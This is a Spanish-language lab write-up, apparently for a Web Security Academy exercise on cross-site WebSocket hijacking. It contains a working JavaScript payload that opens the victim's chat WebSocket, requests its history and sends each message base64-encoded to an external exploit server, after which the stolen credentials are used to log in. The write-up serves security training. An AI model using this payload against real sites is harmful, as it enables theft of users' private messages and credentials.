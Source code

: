 Este laboratorio presenta un escenario en el que un canal WebSocket se encuentra mal protegido, permitiendo que un atacante pueda establecer una conexión maliciosa desde otro dominio y extraer información sensible.

La aplicación incorpora un sistema de chat que utiliza WebSockets para gestionar la comunicación. Analizando la interacción con el servidor, identificamos que no existen medidas de protección contra peticiones cruzadas (como tokens CSRF o validación de origen), lo que abre la puerta a un ataque de tipo cross-site WebSocket hijacking.

El atacante construye un payload malicioso en una página controlada, capaz de establecer la conexión WebSocket directamente con el servidor del chat. Desde ahí, simula el comportamiento legítimo del cliente, solicitando el historial de conversación. Una vez recuperados los mensajes, estos se reenvían a un servidor externo (como Burp Collaborator) para su análisis.

El laboratorio se resuelve cuando logramos obtener, entre los mensajes de la víctima, sus credenciales de acceso, y las usamos para iniciar sesión en su cuenta. Esto demuestra cómo una falta de validaciones en el establecimiento de conexiones WebSocket puede comprometer la seguridad de los usuarios.

Solucion
bueno vemos que de igual forma tenemos un chat live y un exploit server el cual nos ayudaria para poder pasar toda la infomacion de este chat
para ello vamos a crear un script en JS el cual nos va a facilitar la entrada
payload (<script>
    var ws = new WebSocket("https://0acc0036041407c480cd039c00110057.web-security-academy.net/chat");
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch("https://exploit-0a9b00a20482072d802202ec01a00045.exploit-server.net/?data=" + btoa(event.data));
    };
</script>)

Este script es un **payload de exfiltración de datos**:

- Escucha mensajes de un chat o sistema WebSocket.
    
- Los envía a un servidor controlado por el atacante.
    
- Es un ejemplo de **XSS (Cross-Site Scripting) combinado con exfiltración de datos en tiempo real**.
    

💡 **En resumen:** este script roba información que fluye por la conexión WebSocket y la envía a otro servidor externo. Es el tipo de cosa que se usa en pruebas de seguridad (o ataques) para **capturar información confidencial en tiempo real**.

lo copiamos y pegamos en nuestro exploit
![Pasted image 20250821001949.png](imagenes/Pasted image 20250821001949.png)
vemos los logs
![Pasted image 20250821002012.png](imagenes/Pasted image 20250821002012.png)
tenemos info lo vamos a copiar y pegar en un archivo
![Pasted image 20250821002231.png](imagenes/Pasted image 20250821002231.png)
y esto es lo que miramos
![Pasted image 20250821002321.png](imagenes/Pasted image 20250821002321.png)
ya solo nos logeamos
![Pasted image 20250821002414.png](imagenes/Pasted image 20250821002414.png)
